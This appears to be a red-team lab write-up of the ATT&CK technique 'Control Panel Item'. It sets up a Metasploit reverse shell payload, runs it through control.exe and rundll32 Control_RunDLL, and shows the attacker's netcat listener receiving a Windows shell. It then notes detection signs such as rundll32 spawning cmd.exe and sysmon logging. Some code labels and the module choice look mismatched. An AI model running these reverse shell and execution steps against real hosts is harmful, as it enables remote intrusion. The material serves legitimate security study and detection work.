


# T1196: Control Panel Item

## Execution

Generating a simple x64 reverse shell in a .cpl format:


```csharp
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```


We can see that the .cpl is simply a DLL with DllMain function exported:


A quick look at the dissasembly of the dll suggests that rundll32.exe will be spawned, a new thread will be created in suspended mode, which most likely will get injected with our shellcode and eventually resumed to execute that shellcode:



Invoking the shellcode via control.exe:


```csharp
control.exe .\FlashPlayerCPLApp.cpl
# or
rundll32.exe shell32.dll,Control_RunDLL file.cpl
# or
rundll32.exe shell32.dll,Control_RunDLLAsUser file.cpl
```


Attacking machine receiving the reverse shell:


```csharp
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 49346
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```


## Observations

Note how rundll32 spawns cmd.exe and establishes a connection back to the attacker - these are signs that should raise your suspicion when investingating a host for a compromise:



As always, sysmon logging can help in finding suspicious commandlines being executed in your environment:


## Bonus - Create Shortcut With PowerShell

```bash
$TargetFile = "$env:SystemRoot\System32\calc.exe"
$ShortcutFile = "C:\experiments\cpl\calc.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```

## References





